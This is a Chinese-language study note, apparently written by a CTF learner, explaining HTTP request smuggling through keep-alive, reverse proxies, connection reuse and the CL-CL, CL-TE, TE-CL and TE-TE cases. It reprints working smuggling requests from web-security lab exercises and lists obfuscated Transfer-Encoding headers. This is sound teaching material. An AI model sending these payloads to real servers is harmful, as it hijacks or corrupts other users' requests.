




前置知识点
HTTP请求走私我在BUU做题的时候写过一次，但那时我并不明白其中原理，努力的钻研了近一周也不过是一知半解
这两天在做GKCTF2021时我又看到了HTTP请求走私，这道题可以去看w4师傅写的官方wp http://w4nder.top/?p=490
HTTP数据包处理机制
在谈HTTP走私前，了解HTTP协议，前后端处理方式时必要的，我去年要是知识这些，也就不至于自己闷头学7天了
HTTP版本
| 显著特点 | 支持的请求方法 | 性能优化 | 泛用程度 | |
|---|---|---|---|---|
| HTTP0.9 | 不支持请求头响应头，纯文本 | GET | 已过时 | |
| HTTP1.0 | 支持请求头响应头，超文本 | GET、HEAD、POST | 短链接，无优化 | 仍有少量使用 |
| HTTP1.1 | 性能优化，增加请求方法 | 增加了OPTIONS,PUT, DELETE, TRACE, CONNECT方法 | 增加Keep-Alive和chunked分块传输，请求流水线等 | 目前使用最广泛 |
| HTTP2.0 | 增加了二进制分帧 | 无变化 | 增加了二进制分帧层用与多路复用，通信在一个链接上进行，ServerPush | 目前应用较少 |
先说结论，HTTP请求走私产生的根本原因就是HTTP1.1新增的Keep-Alive和chunked分块传输产生的问题
Keep-Alive
HTTP1.1新增的Keep-Alive特性旨在保持链接存活
有了Keep-Alive之后，就有了Pipeline，在Pipeline的规则下客户端可以像流水线一样发送自己的HTTP请求，而不需要等待服务器的响应，如今的浏览器默认不启用Pipeline，但都提供了对Pipeline的支持
那么怎么理解链接存活？
这里就要提到反代和TCP链接重用
反向代理
代理分为正向代理和反向代理
这里举例解释
正向代理就是我们访问谷歌，直接访问谷歌会block，于是可以先访问一台国外的服务器，让这台服务器代替我们访问谷歌，再把响应发给我们，这就是正向代理，我们称这台服务器为代理服务器

此时google不会知道我们真实主机的ip地址，而只知道代理服务器地址，这也是隐藏身份的手段
与正向代理相反的，自然就是反向代理
反向代理最典型的例子就是百度，在不同的地方去访问百度，得到的数据都有所不同，这是因为百度在他的服务器集群前布置了反代服务器，我们访问www.baidu.com并不是直接访问百度的服务器，而是去访问百度服务器前端的反代服务器，由反代服务器处理后将数据发给后端真正的数据服务器

此时我们不知道后端服务器的真实ip，只知道反代服务器的ip地址
apache,nginx等web服务器就是一种反代服务器
TCP 链接重用
如果理解了什么是反代服务器，那么TCP链接重用很容易理解
客户端和服务端进行通信需要进行三次握手，这是必要的。但反代服务器和真实服务器之间通信还需要三次握手无疑是很浪费资源的
因为访问反代服务器的客户端随时会变化，不会是同一个，但服务端不会改变
为了优化性能，反代服务器和真实服务器之间就可以这样做：
- 用户请求反代服务器，三次握手
- 反代服务器处理请求，转发真实服务器，三次握手
- 反代服务器得到真实服务器响应，转发用户，断开和用户的TCP连接，但不断开和真实服务器的TCP连接
- 当后来的用户再次访问这个资源时，反代服务器就可以无需三次握手，直接处理转发真实服务器
这就是TCP连接重用，也叫做请求流水线

chunked分块传输
chunked分块传输和主线的并没有太大的关系，但涉及到了HTTP请求走私的另一个知识点，建议先跳过，然后学完整个原理之后再学
HTTP请求走私原理
Content-Length 与 Transfer-Encoding
Transfer-Encoding: 传输编码
Content-Length: 内容长度
现在的HTTP有且只有两种判断请求包结束的标志，就是 Transfer-Encoding 和 Contnet-Length
在RFC中对HTTP协议的诸多都做出了规定
当反代服务器和真实服务器的其中之一没有这么做，或者说两者对请求的规定不同时，就产生了HTTP请求走私
这里还是按最经典的讲法来说
参考：https://v0w.top/2020/12/20/HTTPsmuggling/#2-3-CL-0
CL!=0
第一个案例提到了两个请求方式，GET和POST，我们都知道GET请求不携带请求体，POST可以携带请求体
但RFC对这点并没有明确的给出规定
https://tools.ietf.org/html/rfc7231#section-4.3.1
sending a payload body on a GET request might cause some existing implementations to reject the request
在GET请求上发送有效负载正文可能会导致某些现有实现拒绝该请求
假设前端代理服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的Content-Length头，不进行处理。这就有可能导致请求走私。
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
如上数据包，前端反代服务器允许请求体，就会将完整数据包发往后端真实服务器，后端服务器不允许请求体，但因为Keep_Alive和请求流水线的存在，会认为这是两个数据包
第一个
GET / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 44\r\n
第二个
GET / secret HTTP/1.1\r\n
Host: example.com\r\n
\r\n
+ 拼接下一个请求包

这样就造成了HTTP请求走私
CL-CL
不想写了，我直接摘抄了
+++++
在RFC7230的第3.3.3节中的第四条中，规定当服务器收到的请求中包含两个Content-Length，而且两者的值不同时，需要返回400错误。
但是总有服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回400错误，但是中间代理服务器按照第一个Content-Length的值对请求进行处理，而后端源站服务器按照第二个Content-Length的值进行处理。
此时恶意攻击者可以构造一个特殊的请求
POST / HTTP/1.1\r\n
Host: example.com\r\n
Content-Length: 8\r\n
Content-Length: 7\r\n
12345\r\n
a
中间代理服务器获取到的数据包的长度为8，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为7。当读取完前7个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母a，对于后端服务器来说，这个a是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其他的正常用户对服务器进行了请求，假设请求如上。
GET /index.html HTTP/1.1\r\n
Host: example.com\r\n
从前面我们也知道了，代理服务器与源站服务器之间一般会重用TCP连接。
这时候正常用户的请求就拼接到了字母a的后面，当后端服务器接收完毕后，它实际处理的请求其实是
aGET /index.html HTTP/1.1\r\n
Host: example.com\r\n
这时候用户就会收到一个类似于aGET request method not found的报错。这样就实现了一次HTTP走私攻击，而且还对正常用户的行为造成了影响，而且后续可以扩展成类似于CSRF的攻击方式。
++++
主要是经典五案例没什么意思，这五个只是相当于学完了知识点后的做题巩固罢了，尤其是CL-CL，太理想了，理想到无论实战还是CTF都不太可能存在
CL-TE 与 TE-CL
RFC2616的第4.4节规定如果收到同时存在Content-Length和Transfer-Encoding这两个请求头的请求包时，在处理的时候必须忽略Content-Length
所以CL和TE是可以同时存在于服务器
所谓CL-TE，就是当收到存在两个请求头的请求包时，前端代理服务器只处理Content-Length这一请求头，而后端服务器会遵守RFC2616的规定，忽略掉Content-Length，处理Transfer-Encoding这一请求头。
TE-CL则相反，前端遵守RFC2616的规定，忽略掉Content-Length，处理Transfer-Encoding这一请求头，后端只处理CL
这两者共通，所以一起说
以CL-TE为例
POST / HTTP/1.1
Host: ac761f1a1e9fe92e80372867004e0068.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: session=fblq0y8FiGcc5K6mSs2HTdfWzGRhTjgz
Connection: keep-alive
Content-Length: 6
Transfer-Encoding: chunked
Content-Type: application/x-www-form-urlencoded
0\r\n
\r\n
a
前端不按RFC标准，处理CL，将整个请求发给后端，后端遵循标准只处理TE，后面的a被认为是下个请求的数据，于是就产生了请求走私
TE-CL同理，不做解释
TE-TE
TE-TE仍然是上面的思想，使反代服务器处理一个而不处理另一个就行
POST / HTTP/1.1
Host: ac991f181e14509a80e729a500980063.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=CopStl0xBmPNLqkRBoRYmmr48VDokDv3
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: anyinvaild
\r\n
5c\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 15\r\n
\r\n
x=1\r\n
0\r\n
\r\n
这里的原理是混淆Transfer-Encoding头来诱导其中一台服务器不去处理Transfer-Encoding，此时代理服务器处理Transfer-Encoding转发数据到后端，后端服务器认为Transfer-Encoding错误不去处理，转而处理Content-Length: 4（RFC规定TE优于CL）,于是产生了HTTP请求走私
以下是HTTP走私的混淆头
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
原理这里算是讲完了，接下来我打算出道题，不过感觉有些无从入手，我会慢慢学的
![极客大挑战2021wp-Web[部分]](/medias/featureimages/10.jpg)